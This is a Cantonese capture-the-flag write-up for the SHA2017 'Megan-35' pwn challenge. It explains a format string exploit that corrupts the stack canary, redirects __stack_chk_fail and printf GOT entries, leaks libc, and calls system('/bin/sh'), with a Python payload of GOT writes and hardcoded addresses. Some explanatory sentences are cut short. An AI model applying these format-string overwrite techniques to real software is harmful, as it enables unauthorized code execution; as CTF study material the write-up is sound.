 # SHA2017 Megan-35

呢題其實唔難,如果比賽個陣熟canary,根本就係coding challenge同小學生加減數問題:0)

呢條問題主要係一個input megan-35 encrypted message,output decrypted message 嘅service

有format string bug


由於佢有開canary,我地可以寫爛個canary,check sec fail同printf, 跳返去main再input /bin/sh, run system("/bin/sh")


首先用ida搵 canary address:


![alt text](1.png)



用stack dump數到第135號位save左 canary,71號位開始save printf of decrypted message



![alt text](2.png)



由於提供libc同冇aslr,所以可以利用GOT再寫printf去71號位,揾libc offset,再搵返system server side address:


![alt text](3.png)

不過直接讀只會出返個所以要再

```python
#dereference by %s

payload+='%p'*70+'--'+'%s'

printf_addr=int(r.recv(1024).split('--')[-1][:4][::-1].encode('hex'),16)

```

之後就寫做






最後一步


一眼就見到號位有個近似嘅物體


減返跳去canary($ebp-0x1c)



Format String payload

```python
#Step 1 write stack chk fail to main
payload =p32(stack_check_fail_got)
payload+=p32(stack_check_fail_got+1)
payload+=p32(stack_check_fail_got+2)
payload+=p32(stack_check_fail_got+3)

#Step 2 write printf to system
payload+=p32(printf_got)
payload+=p32(printf_got+1)
payload+=p32(printf_got+2)
payload+=p32(printf_got+3)

#test arg 139
#-0x34
#address of canary
#send %139$p
#return 0xffffddd0
#from gdb, we know the difference between canary and %139$p is 0x34,
#so 0xffffdd9c=0xffffddd0-0x34

payload+=p32(0xffffdd9c)

fmt= '%188c%71$hhn'# 0xe0-36=
fmt+='%164c%72$hhn'# 0x84-0xe0=
fmt+='%128c%73$hhn'# 0x04-0x84=
fmt+='%4c%74$hhn'# 0x08-0x04

#system_server=0xf7e53940
fmt+='%56c%75$hhn'# 0x40-0x08=
fmt+='%249c%76$hhn'# 0x39-0x40=
fmt+='%172c%77$hhn'# 0xe5-0x39=
fmt+='%18c%78$hhn'  # 0xf7-0xe5=

#9 write canary
fmt+='%11c%79$hhn'
```

由於hhn 係根據%之前string 嘅length,再寫strelen去個address

加上canary頭一個byte係 \x00,所以求其寫d非0嘅野上去已經可以corrupt佢




Reference
==========================
1.http://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/

2.https://hgarrereyn.gitbooks.io/th3g3ntl3man-ctf-writeups/content/2017/SHA2017CTF/problems/pwnable/megan-35/

3.https://b0tchsec.com/2017/sha2017/megan-35

4.https://chung96vn.blogspot.hk/2017/08/sha2017-write-up-pwn-200.html

5.https://github.com/L4ys/CTF/blob/master/sha_2017/pwn200/exp.py

